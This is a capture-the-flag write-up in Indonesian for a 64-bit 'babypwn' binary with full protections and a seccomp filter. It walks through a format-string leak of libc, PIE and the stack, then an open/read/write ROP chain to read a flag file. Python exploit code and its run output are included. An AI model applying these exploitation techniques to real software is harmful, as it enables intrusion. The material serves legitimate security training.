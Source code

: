 # babypwn

## Binary Specifications

```
2:55:12 › file chall; checksec chall
chall: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d441550632209e2b7eb624470e8892ae13d8c4af, for GNU/Linux 3.2.0, not stripped
[*] '/home/chao/Documents/FastTekno/pwn/warmup/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Binary memiliki arsitektur 64 bit dengan full proteksi

```
2:55:20 › seccomp-tools dump ./chall
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0a 0xc000003e  if (A != ARCH_X86_64) goto 0012
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x07 0xffffffff  if (A != 0xffffffff) goto 0012
 0005: 0x15 0x05 0x00 0x00000000  if (A == read) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == write) goto 0011
 0007: 0x15 0x03 0x00 0x00000002  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x0000003c  if (A == exit) goto 0011
 0009: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0011
 0010: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x06 0x00 0x00 0x00000000  return KILL
```

Binary juga dilengkapi dengan filter seccomp dimana hanya memperbolehkan syscall **openat, open, read, write, exit**, dan **exit group**

## Bug

Binary menerima input sebanyak 4 kali, namun bug hanya terdapat pada input dan output pertama, yaitu bug format string

## Exploitation

1 kali format string tersebut dapat kita gunakan untuk melakukan leak libc dan PIE. Hasil dari leaked address tersebut dapat kita gunakan untuk:

1. Leak stack via environ(libc)
2. Mendapatkan base pie

Pada inputan kedua, binary meminta input berupa address yang nantinya value dari address tersebut akan di print oleh binary. <br>
Pada inputan ketiga, binary meminta input yang nantinya akan menjadi address yang akan kita isi pada inputan ke empat.<br>
Pada inputan ke empat, input kita akan diisi pada address yang kita inputkan pada inputan ketiga.<br><br>
Intended solution disini adalah dengan mendapatkan return address stack dan melakukan ROP dari return address.<br>
Ide-nya cukup simple. Setelah mendapatkan address environ, kita cukup meng-inputkan address **environ** tersebut pada inputan kedua agar value dari address tersebut diprint oleh binary sehingga kita mendapatkan address stack. Selanjutnya tinggal melakukan sedikit kalkulasi dari address stack tersebut untuk mendapatkan return address sehingga pada inputan ketiga, kita tinggal meng-inputkan address return dari stack.<br>
Dapat kita lihat pada kode berikut, kode ini melakukan leak libc yang nantinya akan kita gunakan lagi untuk leak stack dan mendapatkan return address.

```Python
  p.sendline("%47$p-%34$p")

  shit = p.recv().split("-")
  print shit

  libc_leak = int(shit[0], 16) - 243
  log.info("Libc leak: {}".format(hex(libc_leak)))
  libc_base = libc_leak - 0x026fc0
  log.info("Libc base: {}".format(hex(libc_base)))
  libc_environ = libc_base + 0x1ef2e0
  log.info("Libc environ: {}".format(hex(libc_environ)))
  libc_open = libc_base + 0x110e50
  log.info("Libc open: {}".format(hex(libc_open)))
  libc_puts = libc_base + 0x875a0
  log.info("Libc puts: {}".format(hex(libc_puts)))
  libc_pop_rdx_rbx = libc_base + 0x0000000000162866
  log.info("Libc pop rdx rbx: {}".format(hex(libc_pop_rdx_rbx)))
  libc_pop_rdi = libc_base + 0x0000000000026b72
  log.info("Libc pop rdi: {}".format(hex(libc_pop_rdi)))
  libc_pop_rsi_r15 = libc_base + 0x0000000000026b70
  log.info("Libc pop rsi: {}".format(hex(libc_pop_rsi_r15)))

  p.sendline(str(hex(libc_environ)))
  stack_leak = int(p.recvline()[:-1])
  log.info("Stack leak: {}".format(hex(stack_leak)))
  ret_stack = stack_leak - 0x100
  log.info("Return stack: {}".format(hex(ret_stack)))
  pie_leak = int(shit[1], 16)
  log.info("Pie leak: {}".format(hex(pie_leak)))
  base_pie = pie_leak - 0x40
  log.info("Base pie: {}".format(hex(base_pie)))

  p.sendline(hex(ret_stack))
```

Pada inputan keempat, tinggal ROP **open read write** abis tu dapet flag deh wkwk.<br>
Sesuai deskripsi soal, flag ada di **/home/babypwn/flag.txt**.<br>
Nah, ROP disini akan sedikit panjang karena filter seccomp(**cuma bisa open read write ajg**). ROPnya kayak gini nih

```Python
  payload = ''
  payload += p64(libc_pop_rdi)
  payload += p64(0)
  payload += p64(libc_pop_rsi_r15)
  payload += p64(base_pie + bss) * 2
  payload += p64(base_pie + read_plt)
  payload += p64(libc_pop_rdi)
  payload += p64(base_pie + bss)
  payload += p64(libc_pop_rsi_r15)
  payload += p64(0) * 2
  payload += p64(libc_pop_rdx_rbx)
  payload += p64(0) * 2
  payload += p64(libc_open)
  payload += p64(libc_pop_rdi)
  payload += p64(3)
  payload += p64(libc_pop_rsi_r15)
  payload += p64(base_pie + bss + 0x100) * 2
  payload += p64(libc_pop_rdx_rbx)
  payload += p64(0x100) * 2
  payload += p64(base_pie + read_plt)
  payload += p64(libc_pop_rdi)
  payload += p64(base_pie + bss + 0x100)
  payload += p64(libc_puts)
```

Untuk membuat custom ROP, tentunya diperlukan pengetahuan yang luas terhadap stack frame dan juga register pada 64 bit. Intinya, rop ini memanggil fungsi read agar kita bisa menginputkan lokasi flag yang nantinya akan di open, di read ke bss + 0x100, dan akhirnya di outputkan.<br>
ROPnya cukup panjang, sekitar 216 bytes wkwkwk, mungkin bisa lebih pendek cuma aku males buat ropchain lagi.

Output:

```
2:56:35 › python exploit.py local
[+] Starting local process './chall': pid 57335
[*] '/home/chao/Documents/FastTekno/pwn/babypwn/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
['0x7fcbc3aa80b3', '0x55d523e07040']
[*] Libc leak: 0x7fcbc3aa7fc0
[*] Libc base: 0x7fcbc3a81000
[*] Libc environ: 0x7fcbc3c702e0
[*] Libc open: 0x7fcbc3b91e50
[*] Libc puts: 0x7fcbc3b085a0
[*] Libc pop rdx rbx: 0x7fcbc3be3866
[*] Libc pop rdi: 0x7fcbc3aa7b72
[*] Libc pop rsi: 0x7fcbc3aa7b70
[*] Stack leak: 0x7fff46d0d4a8
[*] Return stack: 0x7fff46d0d3a8
[*] Pie leak: 0x55d523e07040
[*] Base pie: 0x55d523e07000
0xd8
[*] Switching to interactive mode
FastTekno{L3ak_st4CK_4nD_RO000OOppPPP_tO_tH3_w1n}
```
